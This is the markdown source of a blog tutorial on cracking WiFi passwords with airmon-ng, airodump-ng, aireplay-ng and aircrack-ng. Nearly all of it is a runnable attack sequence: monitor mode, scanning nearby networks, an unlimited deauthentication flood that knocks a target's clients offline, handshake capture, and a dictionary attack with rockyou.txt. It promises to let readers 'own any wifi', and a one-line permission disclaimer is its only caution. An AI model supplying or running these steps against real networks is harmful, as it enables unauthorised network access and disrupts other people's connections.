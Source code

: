 ```yaml
---
title: 'Wifi Password cracking'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/mac-with-coffee.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
## Tools needed: 
* kali-linux
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

Commands for installing required packages :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

To kill all processes and wifi will also be disabled :
```bash
sudo airmon-ng check kill
```

To start wifi module :
```bash
sudo airmon-ng start wlan0 
```

 To start wifi into monitoring mode for capturing packets :
```bash
sudo airmon-ng start wlan0mon
```
This command is only for checking whether wifi is in monitoring mode wlan0mon :
```bash
iwconfig 
```
Shows the details of wifi networks available nearby :
```bash
sudo airodump-ng wlan0mon 
ctrl+c (stops capturing)
``` 
*copy the bssid and channel of wifi, which you want to get into.*

This command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi :
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon
```

The next instruction will help you to capture the 4-way handshake.
You have to specify any name in which the .cap captured flag will be saved
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)
```

Now open another terminal (terminal 2) and run the following command for deauthenticating the devices connected to the wifi 
```bash
sudo aireplay-ng --deauth 0 -a <bssid> wlan0mon
```
(this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

**now the 4-way handshake will be saved in terminal 1**

```bash
ctrl+c (stop capturing only after getting the 4-way handshake)
```

*the captured file will be saved as .cap file in you directory*

This command stops monitoring mode :
```bash
sudo airmon-ng stop wlan0mon 
```

Restart your wifi module :
```bash
sudo service network-manager start 
```

Start cracking your password :
*(you have to specify the name of your .cap file and full path to the wordlist)*
```bash
aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
```



>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.
